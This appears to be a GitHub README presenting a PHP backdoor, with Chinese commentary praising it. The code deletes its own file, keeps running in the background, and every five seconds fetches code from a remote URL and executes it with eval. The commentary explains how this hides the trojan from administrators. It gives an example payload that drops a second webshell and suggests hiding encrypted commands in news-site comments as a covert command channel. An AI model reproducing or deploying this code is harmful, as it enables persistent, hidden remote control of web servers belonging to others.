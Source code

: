 # PHP-Backdoor



<?php

unlink($_SERVER['SCRIPT_FILENAME']);

ignore_user_abort(true);

set_time_limit(0);

$remote_file = 'http://xxx/xxx.txt';

while($code = file_get_contents($remote_file)){

@eval($code);

sleep(5);

};

?>


后门的代码第一行删除自身，然后驻留在后台内存里（关于ignore_user_abort函数，百度一下），等待外部链接

在xxx.txt中写入你的后门代码，访问后就会删除自己并循环执行txt的代码 


例如txt里面写了一句这样的代码 file_put_contents('./1.php',"<?php @eval($_POST[cmd])'"?>");


这样就会在目录下又生成一个木马


如果对方写了是执行命令 。。。

这段代码纯粹变成了一个等待命令的木马。。


而且管理员检查木马文件的时候  都找不到。。。


因为文件已经删除了



木马却注入在php-fpm内


sleep(5);  五秒就去远程读取一下指令。。。

........

打算将代码修改一下，加一些正则，去163某一篇新闻的评论里读取预先设定的恶意代码。。。hehe。。。


黑客连服务器都省了。。。



黑客只需要去网易新闻评论窗口内写入自己的代码就行


怕别人看懂？


直接加密


采用对称加密算法。。没有秘钥 谁也看不懂啥意思


秘钥在这段后门里面写着


所以非常安全



活生生就是一个远控木马啊！！

这么好的思路，给作者一个大赞
